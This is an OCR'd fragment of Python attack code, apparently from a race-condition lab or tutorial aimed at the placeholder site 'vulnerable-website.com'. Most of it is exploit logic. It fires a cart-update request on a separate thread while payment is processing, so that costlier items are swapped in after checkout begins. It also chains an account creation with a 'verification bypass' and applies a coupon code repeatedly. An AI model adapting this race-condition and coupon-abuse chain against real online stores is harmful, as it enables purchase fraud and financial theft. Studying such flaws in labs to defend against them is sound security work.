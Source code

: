          # Prepare cart modification request
         cart_req = threading.Thread(
             target=lambda: session.post(
                 "https://vulnerable-website.com/cart/update",
                 json={"items": [{"id": "expensive-item", "quantity": 10}]}
             )
         )
         
         # Start payment first
         payment_req.start()
         
         # Short delay
         time.sleep(0.05)
         
         # Modify cart during payment processing
         cart_req.start()
         
         # Wait for both to complete
         payment_req.join()
         cart_req.join()
         
         # Check order status
         order = session.get("https://vulnerable-website.com/order/status")
         return order
     
     # Execute full chain
     def execute_attack_chain():
         print("Starting attack chain...")
         
         # Step 1: Create account with verification bypass
         username = "raceuser" + str(int(time.time()))
         email = f"{username}@example.com"
         password = "Password123!"
         
         print(f"Creating account: {username}")
         session = create_account_with_bypass(username, email, password)
         
         # Step 2: Apply coupon code multiple times
         print("Exploiting coupon code...")
         applied = exploit_coupon_code(session, "DISCOUNT20")
         print(f"Applied coupon {applied} times")
         
